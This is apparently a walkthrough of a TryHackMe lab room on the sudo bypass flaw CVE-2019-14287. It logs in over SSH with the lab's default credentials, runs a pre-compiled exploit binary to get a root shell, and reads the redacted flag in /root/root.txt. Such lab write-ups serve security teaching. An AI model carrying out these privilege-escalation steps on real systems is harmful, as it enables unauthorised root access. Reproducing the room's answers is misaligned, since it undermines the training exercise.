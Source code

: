 # Sudo Security Bypass

## Room
This a Try Hack Me room called `Sudo Security Bypass` 

The Web address for this room is
https://tryhackme.com/room/sudovulnsbypass

## Synopsis.
A tutorial room exploring CVE-2019-14287 in the Unix Sudo Program. Room One in the SudoVulns Series


---

## Getting started

Make sure you are connected to the Try Hack Me VPN before starting!

The first thing I do when starting a room is to note the victim and attacker's IP as given by Try Hack Me.

```
export MYIP=10.9.9.10
export IP=10.10.10.10
```

This format allows me to copy and paste in any terminal and use `$IP` anytime I need the victim's IP or `$MYIP` if I need my own

---

## Task 1 - Deploy!

This room is very beginner friendly. Enjoy the read, hit deploy, go.

---

## Task 2 - Security Bypass

I highly recommend reading through the explanations before getting started with the rest. You will find it very useful.

### #1 - Use the pre-compiled exploit in the VM to get a root shell.

We are told to SSH to the machine:
```
port: 4444
Username: tryhackme
Password: tryhackme
```

This gives us the following command:
```
ssh -p 4444 tryhackme@$IP
```

Once we are in, we should find the exploit that has been uploaded.
```
ls
	exploit
```

Running a script is done by referring to its name directly. We use `./` to reffer to the current directory
```
./exploit
```

You don't need to do anything else, the password prompt will automatically return an error and you'll notice your shell has changed...
```
# whoami
root
```

We are now root!

### #2 - What's the flag in /root/root.txt?

And now, for the easy part, get the root.txt file in the root folder:
```
cd /root
ls
cat root.txt
THM{xxxxxx_xxxxxxx_xxxxx}
```

This was a great learning experience!
